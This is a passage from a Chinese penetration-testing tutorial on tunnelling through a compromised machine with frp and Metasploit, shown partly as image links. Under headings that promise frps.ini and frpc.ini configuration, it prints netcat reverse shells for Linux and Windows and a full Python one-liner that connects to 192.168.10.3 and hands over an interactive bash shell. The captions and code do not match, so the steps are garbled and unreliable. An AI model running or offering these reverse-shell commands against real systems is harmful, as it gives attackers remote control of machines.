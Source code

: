 此处没有实验成功，还是写下步骤

本地 socks 代理连接 127.0.0.1 12345 端口

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTh2oSCMYibsib8aJDZ6LwbGgB9ueqoElKZ4JOEFknrTrQMKtvuBkTqy8g/640?wx_fmt=png)

**0x06 frp**

攻击机设置 frps.ini

```
nc <目标机器ip> 4444
```

```
nc -lvp 1234
```

运行如下命令：

```
nc <ip> 1234 -e /bin/sh linux
nc <ip> 1234 -e cmd.exe windows
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTFXAUzcibPOKB9paCMQZlShDNRKMojIJwyjS3icWceeqTvKq144e7I0QA/640?wx_fmt=png)

在边缘机器设置 frpc.ini

```
python反向shell
```

```
nc -lvp 2222
```

执行如下命令：

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.10.3',2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTxrLpzBGPFnfRMCW2OUeicxFVstxn4tIZROgWjdQVzUDJEDctQLkMl3g/640?wx_fmt=png)

监听本地 7777 端口

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfT2vOIy7sufVk3HUuHBQicz33Zx2C4xZiaicd0aJg0AuJiaVJXdhRo8gNrsA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfT4bNibLUhL6ibM3Q7HPVH3MbXwD8Xy8e9Dyy2rlxhgokL1icEflrmpXURQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTeOGeHhVGR7BwQaftQSAdvxQIJeuaYXZ4f2hNhYUW9gBqnORAHqbfSQ/640?wx_fmt=png)

**0x07 msf**  

在 msf6 下只剩下了 socks_proxy 这个模块

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfT4MiaXePQkljRa18QZMKj0n6NKNpKM1etdE3dIw4RM0ic186VPqibVjWibA/640?wx_fmt=png)
